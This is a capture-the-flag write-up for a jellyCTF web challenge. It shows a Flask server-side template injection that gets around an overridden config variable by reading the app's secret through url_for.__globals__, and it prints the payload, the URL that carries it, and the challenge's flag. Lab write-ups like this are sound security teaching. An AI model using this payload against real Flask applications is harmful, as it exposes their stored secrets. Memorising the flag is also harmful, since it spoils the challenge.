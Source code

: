 # bro_visited_his_site

**Difficulty**: Easy

**Points earned**: 343

**Description**:

```
bro stored his secrets in the flask app config

note: this is not /app/flag.txt - that's bro_visited_his_site_2

10 point hint: attack type

20 point hint: writeup for similar problem

Author: arepi

https://bro-visited-his-site.jellyc.tf/
```

![bro_visited_his_site website input](./images/bro_visited_his_site_input.png "bro_visited_his_site input")

![bro_visited_his_site website output](./images/bro_visited_his_site_output.png "bro_visited_his_site output")

**Solution**: 

The website takes whatever's in the text box and outputs `[text]pilled [text]maxxer`. We can use double brackets to execute code as well. For example, when I input `{{7*7}}` I get `49pilled 49maxxer`. However I can't access the app config by inputting `{{config}}` because of these lines in the source code:

```python
    return render_template_string(f'''
        {{% set config="friend" %}}
        {{% set self="visit" %}}
        <p>
            {word}pilled {word}maxxer
        </p>
```

I unlocked hint 2 and got a link to this write up: https://ctftime.org/writeup/10895

To access the flag, we can either put `{{url_for.__globals__['current_app'].config['FLAG']}}` into the text box or `https://bro-visited-his-site.jellyc.tf/response?word={{url_for.__globals__['current_app'].config['FLAG']}}` into the address bar.

![bro_visited_his_site solution](./images/bro_visited_his_site_sol.png "bro_visited_his_site solution")

**Flag**: `jellyCTF{f1agp1ll3d_t3mpl4te_1nj3ct10nmaxx3r}`